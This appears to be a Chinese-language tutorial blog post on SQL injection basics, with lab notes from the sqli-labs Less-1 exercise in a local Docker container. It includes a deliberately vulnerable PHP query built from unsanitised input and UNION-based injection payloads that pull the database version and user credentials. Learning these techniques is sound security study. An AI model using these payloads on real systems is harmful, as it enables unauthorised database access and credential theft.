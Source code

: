 ```yaml
---
layout: post
title: 1.1.1-SQL注入-SQL注入基础-SQL注入原理分析
category: 
  - web安全
tags: 
  - sql注入
  - web安全
abbrlink: 1730261069
date: 2018-06-11 00:00:00
description: more
---
```


## SQL注入原理分析

### SQL注入背景介绍-SQL语言介绍
sql 结构化查询语言  
通用的功能极强的关系数据库标准语言  
功能包括查询、操纵、定义和控制四个方面  
不需要告诉SQL如何访问数据库，只要告诉SQL需要数据库做什么 

### SQL注入产生原因
网络技术与信息技术高速发展，B/S模式具有界面统一，使用简单，易于维护，扩展性好，共享度高等优点，B/S模式越来越多的被应用于程序编写中。  

1. B/S建立在互联网，对安全控制能力较弱
2. 开发人员水平和经验参差不齐，没有在编写代码时对用户的输入数据或者页面携带信息进行必要的合法性判断。  

攻击者利用这个机会**提交一段数据库查询代码**，根据程序返回的结果，就可以获得一些数据库信息。

### SQL注入核心原理

SQL注入是一种将恶意的SQL代码**插入或添加到应用（用户）的输入参数**的攻击，攻击者探测出开发者编程过程中的漏洞，利用这些漏洞，巧妙的**构造SQL语句**对数据库系统的内容进行直接**检索或修改**。


灵活的SQL查询语句+用户输入的数据带入了SQL语句=用户直接操作数据库->**SQL注入漏洞**

	select version();
	select id from where id=1;
	select id from jobs where id=1 union select version();

	select id.location from jobs where id=1 union select 1,version();  // 1是占位

用户输入可控，代码对用户输入进行了拼接，带入SQL语句，产生SQL注入漏洞

http://test.com/index.php?id=1*UNION SELECT 1,version()#*


	$id=$_GET['id'];// id没做处理
	$sql="SELECT * FROM users WHEre id='$id' LIMIT 0,1"

	select id,location from jobs where id=1 union select 1,version()#


<br/>

	docker ps --help
	docker ps -a
	docker exec -it <id> /bin/bash
	mysql
	show databases;
	use security;
	show tables;

	select * from users;
	select username from users where id=1;
	select username,password from users where id=1;

	select 1;
	select 1123;
	select version();
	select username,password from users where id=1 union select version();
	select username,password from users where id=1 union select 1,version();

	select * from users where id=1 limit 0,1;
	select * from users where id=-1 union select 1,2,version()# limit 0,1;

	// 浏览器
	http://127.0.0.1:90/Less-1/?id=1%27%20union%20select%201,2,3%23
	?id=1' union select 1,2,3
	// %23 #

	http://127.0.0.1:90/Less-1/?id=-1%27%20union%20select%201,version(),3%23
	?id=-1' union select 1,version(),3
	// 需要让它出个错

	// 控制台
	// 退出mysql
	exit

	cd /var/www/html/Less-1
	cat index.php
	vi index.php
	// 编辑
	echo $sql
	:wq


todo sqli-labs源码地址

	docker ps -a
	docker exec -it <id> /bin/bash
	cd /var/www/html/Less-1


